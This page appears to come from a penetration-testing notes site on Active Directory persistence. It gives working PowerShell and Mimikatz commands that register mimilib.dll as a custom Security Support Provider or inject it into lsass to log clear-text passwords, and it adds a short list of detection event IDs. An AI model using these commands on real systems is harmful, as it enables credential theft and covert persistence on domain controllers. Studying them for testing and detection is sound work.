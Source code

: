 ```yaml
---
title: "Custom SSPs"
description: "Persistence using custom Security Support Providers (SSPs)."
lead: "Using custom SSPs for persistence in Active Directory with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 50
toc: true
---
```


## General

- A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection
- Some SSP packages by Microsoft are
  - NTLM
  - Kerberos
  - Wdigest
  - CredSSP
- Mimikatz provdes custom SSP - mimilib.dll
- This SSP logs local logons, service account and machine aacount passwords in clear text on the target server

## Exploitation

```powershell
# First way: drop mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | Select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

# Second way: using mimikatz to inject into lsass (unstable with Server 2016)
Invoke-Mimikatz -Command '"misc::memssp"'

# All logons on the DC are logged to C:\Windows\system32\kiwissp.log
Get-Content C:\Windows\system32\kiwissp.log
```

## Detection

- Event IDs:
  - 4657: Audit creation/change of HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\SecurityPackages
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
